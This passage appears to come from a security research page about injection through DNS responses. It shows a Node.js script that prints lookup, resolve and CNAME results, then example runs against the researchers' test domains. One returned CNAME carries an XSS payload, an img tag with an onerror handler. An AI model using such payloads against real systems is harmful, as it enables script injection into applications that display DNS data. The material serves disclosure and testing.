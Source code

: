 ```
	});
	
} else {
	var host = process.argv[2];
	dns.lookup(host, (err, result) => {
		if (result) {
			console.log("node".padEnd(8), "lookup".padEnd(16), host.padEnd(30), "-".padEnd(80), "-".padEnd(10), "IN".padEnd(5), "A".padEnd(5), result);
		} else {
			console.log("node".padEnd(8), "lookup".padEnd(16), host.padEnd(30), "-".padEnd(80), "-".padEnd(10), "-".padEnd(5), "ERROR".padEnd(5), err.errno);
		}
	});
	
	dns.resolve(host, (err, result) => {
		if (result) {
			for (var i = 0; i < result.length; i++) {
				console.log("node".padEnd(8), "resolve".padEnd(16), host.padEnd(30), "-".padEnd(80), "-".padEnd(10), "IN".padEnd(5), "A".padEnd(5), result[i]);
			}
		} else {
			console.log("node".padEnd(8), "resolve".padEnd(16), host.padEnd(30), "-".padEnd(80), "-".padEnd(10), "-".padEnd(5), "ERROR".padEnd(5), err.errno);
		}
	});
	
	dns.resolveCname(host, (err, result) => {
		if (result) {
			for (var i = 0; i < result.length; i++) {
				console.log("node".padEnd(8), "resolveCname".padEnd(16), host.padEnd(30), "-".padEnd(80), "-".padEnd(10), "IN".padEnd(5), "CNAME".padEnd(5), result[i]);
			}
		} else {
			console.log("node".padEnd(8), "resolveCname".padEnd(16), host.padEnd(30), "-".padEnd(80), "-".padEnd(10), "-".padEnd(5), "ERROR".padEnd(5), err.errno);
		}
		
	});
	
}
```

Run the code with the example domains provided by us:

```
$ node main.js cnamezeroweb.test.xdi-attack.net

node     resolveCname     cnamezeroweb.test.xdi-attack.net - -  IN    CNAME zero.longtxtrecord.ml

$ node main.js cnamexss.test.xdi-attack.net

node     resolveCname     cnamexss.test.xdi-attack.net  - -  IN    CNAME <img/src=''/onerror='alert&#x28&#x22xss&#x22&#x29'>.a.cnamexss.test.xdi-attack.net
```
